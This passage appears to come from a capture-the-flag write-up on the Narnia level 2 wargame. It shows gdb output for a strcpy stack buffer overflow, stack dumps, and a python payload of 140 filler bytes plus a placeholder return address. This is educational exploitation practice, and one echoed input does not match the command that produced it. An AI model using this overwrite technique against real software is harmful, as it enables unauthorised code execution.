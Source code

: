 ``` shell
   0x08048490 <+51>:    mov    eax,DWORD PTR [ebp+0xc]
   0x08048493 <+54>:    add    eax,0x4
   0x08048496 <+57>:    mov    eax,DWORD PTR [eax]
   0x08048498 <+59>:    mov    DWORD PTR [esp+0x4],eax
   0x0804849c <+63>:    lea    eax,[esp+0x10]
   0x080484a0 <+67>:    mov    DWORD PTR [esp],eax
   0x080484a3 <+70>:    call   0x8048320 <strcpy@plt>
   0x080484a8 <+75>:    lea    eax,[esp+0x10]
   0x080484ac <+79>:    mov    DWORD PTR [esp+0x4],eax
   0x080484b0 <+83>:    mov    DWORD PTR [esp],0x8048574
   0x080484b7 <+90>:    call   0x8048310 <printf@plt>
   0x080484bc <+95>:    mov    eax,0x0
   0x080484c1 <+100>:   leave
   0x080484c2 <+101>:   ret
End of assembler dump.
(gdb) break *0x080484a8
Breakpoint 1 at 0x80484a8
```

We start with a small input to better understand the stack layout.

``` shell
(gdb) r $(python -c 'print "D"*16')
Starting program: /narnia/narnia2 ABCD

Breakpoint 1, 0x080484a8 in main ()
(gdb) p 0x90
$1 = 144
(gdb) x/40wx $esp
0xffffd680:     0xffffd690      0xffffd8ed      0x00000000      0x00000000
0xffffd690:     0x44444444      0x44444444      0x44444444      0x44444444
0xffffd6a0:     0xffffd700      0xffffd6c8      0xffffd6c0      0x08048249
0xffffd6b0:     0xf7ffd938      0x00000000      0x000000bf      0xf7eb7fe6
0xffffd6c0:     0xffffffff      0xffffd6ee      0xf7e2ec34      0xf7e54fe3
0xffffd6d0:     0x00000000      0x002c307d      0x00000001      0x080482dd
0xffffd6e0:     0xffffd8dd      0x0000002f      0x0804974c      0x08048522
0xffffd6f0:     0x00000002      0xffffd7b4      0xffffd7c0      0xf7e5519d
0xffffd700:     0xf7fcb3c4      0xf7ffd000      0x080484db      0xf7fcb000
0xffffd710:     0x080484d0      0x00000000      0x00000000      0xf7e3bad3
(gdb) info reg ebp
ebp            0xffffd718       0xffffd718
```

This means the character array `buf` is located at `0xffffd690`. `ebp` is located at `0xffffd718` meaning the address below it is the caller's (what called `main`) return address. Let's find out what that is and what we need to do to overwrite it.

``` shell
(gdb) x/bx 0xf7e3bad3
0xf7e3bad3 <__libc_start_main+243>:     0x89
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /narnia/narnia2 $(python -c 'print "D"*140 + "\xaa\xaa\xaa\xaa"')

Breakpoint 1, 0x080484a8 in main ()
(gdb) x/40wx $esp
0xffffd600:     0xffffd610      0xffffd86d      0x00000000      0x00000000
0xffffd610:     0x44444444      0x44444444      0x44444444      0x44444444
0xffffd620:     0x44444444      0x44444444      0x44444444      0x44444444
0xffffd630:     0x44444444      0x44444444      0x44444444      0x44444444
0xffffd640:     0x44444444      0x44444444      0x44444444      0x44444444
0xffffd650:     0x44444444      0x44444444      0x44444444      0x44444444
0xffffd660:     0x44444444      0x44444444      0x44444444      0x44444444
0xffffd670:     0x44444444      0x44444444      0x44444444      0x44444444
```